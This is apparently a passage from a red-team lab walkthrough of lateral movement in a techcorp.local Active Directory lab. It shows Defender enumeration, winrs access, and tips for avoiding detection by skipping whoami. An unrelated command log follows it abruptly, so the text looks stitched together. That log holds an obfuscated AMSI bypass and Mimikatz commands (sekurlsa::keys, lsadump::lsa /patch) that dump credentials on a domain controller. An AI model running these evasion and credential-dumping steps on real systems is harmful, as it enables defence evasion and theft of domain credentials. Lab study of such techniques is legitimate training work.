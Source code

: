 ```
[-] Name=Windows Defender Advanced Threat Protection

[!] Checking Program Files x86 on us-jump3.us.techcorp.local
[-] Name=Windows Defender

[!] Checking Program Data on us-jump3.us.techcorp.local
[+] Nothing found in Program Data

[!] Checking installed services on us-jump3.us.techcorp.local
[-] Name=mpssvc; DisplayName=Windows Defender Firewall; ServiceName=mpssvc
[-] Name=SecurityHealthService; DisplayName=Windows Security Service; ServiceName=SecurityHealthService
[-] Name=Sense; DisplayName=Windows Defender Advanced Threat Protection Service; ServiceName=Sense
[-] Name=WdNisSvc; DisplayName=Windows Defender Antivirus Network Inspection Service; ServiceName=WdNisSvc
[-] Name=WinDefend; DisplayName=Windows Defender Antivirus Service; ServiceName=WinDefend

[SNIP]
```

We find that Microsoft Defender for Endpoint (MDE) is enabled on the target `us-jump3`.

We can access `us-jump3` using winrs in the process running as `jumpone` that we started above.

```
PS C:\Windows\system32> winrs -r:us-jump3 cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\jumpone$>
🚀

C:\Users\jumpone$>set u

USERDNSDOMAIN=US.TECHCORP.LOCAL
USERDOMAIN=US
USERNAME=jumpone$ 👤
USERPROFILE=C:\Users\jumpone$
```

⭐To avoid detections using commonly used LOLBAS such as `whoami.exe`, we can use the `set u`/`set username` command to enumerate our current user using environment variables.

Trying to execute a LOLBAS such as `wmic` results in a failure as follows.

```
C:\Users\jumpone$>wmic

The system cannot execute the specified program.
❌
```

Exiting the shell and enumerating Windows Defender Application Control (WDAC) status using `Get-CimInstance` cmdlet we find that WDAC has been enabled on `us-jump3`.


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'